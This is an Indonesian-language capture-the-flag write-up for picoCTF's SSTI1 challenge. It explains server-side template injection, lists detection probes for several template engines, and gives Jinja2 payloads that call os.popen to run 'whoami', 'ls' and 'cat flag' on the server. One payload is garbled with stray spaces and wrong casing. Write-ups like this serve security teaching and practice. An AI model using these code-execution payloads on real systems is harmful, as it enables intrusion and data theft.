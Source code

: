 # SSTI1

saya akan memberikan solusi terperinci untuk tantangan SSTI1 dari kategori eksploitasi web PICOCTF, yang dikategorikan sebagai tantangan level yang mudah.

Nama tantangan-SSTI, adalah kependekan dari injeksi template sisi server. SSTI terjadi ketika aplikasi web memungkinkan pengguna untuk mengirimkan data yang diproses oleh mesin templat di server tanpa validasi yang tepat. Mesin template digunakan untuk menghasilkan konten dinamis, namun jika input yang diberikan pengguna tidak disanitasi, penyerang dapat menyuntikkan kode berbahaya yang dijalankan server.

Dalam hal ini, untuk mengidentifikasi mesin templat mana yang digunakan oleh aplikasi, kami dapat menyuntikkan muatan tertentu dan mengamati responsnya. Di bawah ini adalah beberapa mesin templat umum dan muatan uji yang sesuai:

```bash
Jinja2 (Python Flask/Django): {{ 7*7 }}
Freemarker (Java): ${7*7}
Velocity (Java): #set($a = 7*7)${a}
Thymeleaf (Java): ${7*7}
Twig (PHP Symfony): {{ 7*7 }}
Smarty (PHP): {$7*7}
Mako (Python): <% print 7*7 %>
```

## Documentation

[Documentation](images/1.png)

[Documentation](images/2.png)

Sekarang untuk menyelesaikan tantangan, kita perlu menemukan nilai bendera yang bisa kita dapatkan dengan melakukan injeksi perintah atau serangan eksekusi kode jarak jauh. Kami dapat mencari muatan yang tersedia sehubungan dengan Jinja2 untuk menjalankan injeksi perintah.

Mari kita berikan input seperti di bawah ini :

```bash
  {{self._templateReference__context.cycler .__ init __.__ global __. os.popen (‘whoami’) .read ()}}
```

![App Screenshot](images/3.png)

Telah dikonfirmasi bahwa aplikasi rentan terhadap serangan injeksi perintah dan sekarang kita dapat mencari file flag menggunakan perintah ‘LS’ untuk mendaftar file yang tersedia di direktori Currect dengan memberikan input seperti di bawah ini -

```bash
  {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘ls’).read() }}
```

![App Screenshot](images/4.png)

Untungnya, kami memiliki file flag di folder yang sama sehingga kami tidak perlu mencarinya lebih lanjut dan kami dapat langsung membaca konten file flag menggunakan perintah CAT seperti yang ditunjukkan di bawah ini -

```bash
  {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘cat flag’).read() }}
```
